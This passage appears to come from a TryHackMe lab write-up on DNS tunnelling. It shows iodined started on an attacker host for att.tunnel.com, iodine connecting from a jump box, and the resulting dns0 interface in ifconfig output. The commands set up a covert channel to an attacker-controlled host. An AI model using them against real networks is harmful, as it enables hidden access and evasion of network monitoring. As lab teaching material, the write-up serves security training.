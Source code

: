 First, we need to launch the iodine daemon on the attacker side :

```console
thm@attacker:~$ sudo iodined -f -c -P thmpass 10.1.1.1/24 att.tunnel.com
[sudo] password for thm: 
Opened dns0
Setting IP of dns0 to 10.1.1.1
Setting MTU of dns0 to 1130
Opened IPv4 UDP socket
Listening to dns for domain att.tunnel.com
```
{: .nolineno }

Secondly, we can establish the tunnel by calling iodine on the Jum-Box :

```console
thm@jump-box:~$ sudo iodine -P thmpass att.tunnel.com
[sudo] password for thm: 
Opened dns0
Opened IPv4 UDP socket
Sending DNS queries for att.tunnel.com to 127.0.0.11
Autodetecting DNS query type (use -T to override).
Using DNS type NULL queries
Version ok, both using protocol v 0x00000502. You are user #0
Setting IP of dns0 to 10.1.1.2
Setting MTU of dns0 to 1130
Server tunnel IP is 10.1.1.1
Testing raw UDP data to the server (skip with -r)
Server is at 172.20.0.200, trying raw login: OK
Sending raw traffic directly to 172.20.0.200
Connection setup complete, transmitting data.
Detaching from terminal...
thm@jump-box:~$
```
{: .nolineno }

Finally, we can type ifconfig on the Jump-Box to have the number of interface :

```console
thm@jump-box:~$ ifconfig
dns0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1130
        inet 10.1.1.2  netmask 255.255.255.0  destination 10.1.1.2
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 500  (UNSPEC)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.20.0.2  netmask 255.255.255.0  broadcast 172.20.0.255
        ether 02:42:ac:14:00:02  txqueuelen 0  (Ethernet)
        RX packets 578  bytes 56331 (56.3 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 466  bytes 52347 (52.3 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.0.133  netmask 255.255.255.0  broadcast 192.168.0.255
        ether 02:42:c0:a8:00:85  txqueuelen 0  (Ethernet)
        RX packets 23  bytes 1876 (1.8 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 10  bytes 674 (674.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
```